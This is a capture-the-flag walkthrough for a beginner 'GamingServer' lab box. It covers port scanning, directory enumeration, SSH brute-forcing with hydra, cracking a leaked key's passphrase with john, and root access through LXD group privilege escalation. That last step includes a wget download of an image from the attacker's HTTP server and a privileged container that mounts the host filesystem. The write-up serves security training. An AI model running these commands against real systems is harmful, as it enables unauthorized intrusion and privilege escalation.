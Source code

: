 # GamingServer

An Easy Boot2Root box for beginners.  
Can you gain access to this gaming server built by amateurs with no experience of web development and take
advantage of the deployment system.  

# Tasks
find the user flag and the root flag.  

# nmap

## command
```sh
nmap -sV -sC -v 10.10.69.28
```
# Results
```sh
Scanning 10.10.69.28 [1000 ports]
Discovered open port 80/tcp on 10.10.69.28
Discovered open port 22/tcp on 10.10.69.28
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
| 256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_ 256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
| http-methods:
|_ Supported Methods: POST OPTIONS HEAD GET
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
# http_80

## ip `10.10.69.28`

# Gobuster

## Command
```sh
gobuster dir -u http://10.10.69.28 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
## Result
```sh
	/secrets
	/uploads
```

## /secrects
I got a secret file that after downloading i found that it was a `ssh RSA`

## /uploads
I downloaded the dict.lst file that contains a list of i think passwords or usernames.  

Manifesto.txt `very useless manifesto that is only there to teach you poetry`



# sourcecode

Going back i got a comment from the dev.  


## so far we have  
- ssh RSA
- A dict.lst = i assume is a dictionary/ wordlist
- A user : john 

# ssh_22

First attempt
----------------------------------------------
```sh
hydra -l john -P dict.lst 10.10.69.28 ssh 
```

-------------------------------------------------
Second Attempt
-------------------------------------------------
```sh
	ssh2john secretKey > secret  
	john --wordlist=dict.lst secret
```

---------------------------------------------------
Third Attempt
---------------------------------------------------
```sh
chmod 600 secretKey
ssh john@10.10.69.28 -i secretKey
```
This was much better.  

-----------------------------------------------------
Forth Attempt
-----------------------------------------------------
```sh
/usr/share/john/ssh2john.py secretKey > secret
sudo john secret -w=dict.lst
```

Now i have the passphrase `letmein`  
Later, back to my senses and spotted my mistakes,Can you??  

-------------------------------------------------------
Login to ssh john
-------------------------------------------------------
```sh
	sudo ssh john@10.10.69.28 -i secretKey
	#passphrase = letmein
```

And now i have a shell.

`ls` and `cat user.txt` to get the user flag.  


# PRIVILEGE ESCALATION
```sh
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```
We use a method called `Lxd Privilege Escalation`  
Privilege escalation through lxd requires the access of local account, Good thing for us since we have SSH access already.  
Note: the `most important condition` is that the user should be a `member of lxd group`.  
To start with we need to download the lxd-alpine image builder to our local machine:  
```sh
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder 
sudo ./build-alpine -a i686 #run the build-alpine
```
When you ls the directory you will see that you have the image file with the .gz extension.  
Next we need to setup a simple http server and upload to the image file to the remote machine.  
```sh
python3 -m http.server
```
We can use wget on the remote machine to upload the .qz file.  
```sh
wget http://10.8.172.59:8000/alpine-v3.19-i686-20240201_2212.tar.gz
```
Once uploaded we next need to import the image into lxd.  
```sh
lxc image import alpine-v3.19-i686-20240201_2212.tar.gz --alias alpine
```
If we use the command, “lxc image list”, we can see that the image is now available on lxd.  
We now need to create a machine from the image.  
```sh
lxc init alpine privesc -c security.privileged=true
```
Where alpine is the image file and privesc is what I am calling the machine.  
Next we need to add a hard drive to the machine, the privesc technique in this case looks to have the whole host
mounted in the /mnt/root and thus you have root access.  
```sh
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```
As noted above the machine privesc is currently stopped, so we will need to start it:
```sh
lxc start privesc
```
To exploit the machine
```sh
lxc exec privesc /bin/sh
```

## Now you are root 
## Go get the flag!!!